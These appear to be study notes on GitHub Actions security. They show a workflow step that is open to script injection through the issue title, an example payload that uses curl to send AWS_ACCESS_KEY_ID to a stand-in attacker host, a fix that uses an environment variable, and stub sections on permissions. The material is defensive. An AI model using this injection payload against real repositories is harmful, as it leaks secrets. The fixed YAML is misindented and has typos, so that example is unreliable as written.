 # Security and Permissions

### Injection:

```yaml
 - name: Assign label
   run: |
      issue_title="${{ github.event.issue.title }}"
      if [[ "$issue_title" == *"bug"* ]]; then
      echo "Issue is about a bug!"
      else
      echo "Issue is not about a bug"
      fi
```


This code is vulnerable to script injection.
Formally, a malicious agent could do something like this:

`a";curl http;//my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`

and gain access to sensitive data, like the aws_access_key_id, which 
generally is stored in a repository secret.

The first way that comes to mind to avoid this 
situation is using a github actions, because the injection would never reach a shell.

If you must use your own comand is better to use an environment variable to store
your title.

```yaml
- name: Assign label
    env: 
      TITLE: ${{ github.event.issue.title }}
        run: |
          if [[ "$TITLE" == *"bug"* ]]; then
          echo "Issue is about a bug!"
          else
          echo "Issue is not about a bug"
          fi
```

## Permissions

Permissions are set at job level and they define the scopo
of the GITHUB_TOKEN

## Third-party permissions

OpenID Connect Approach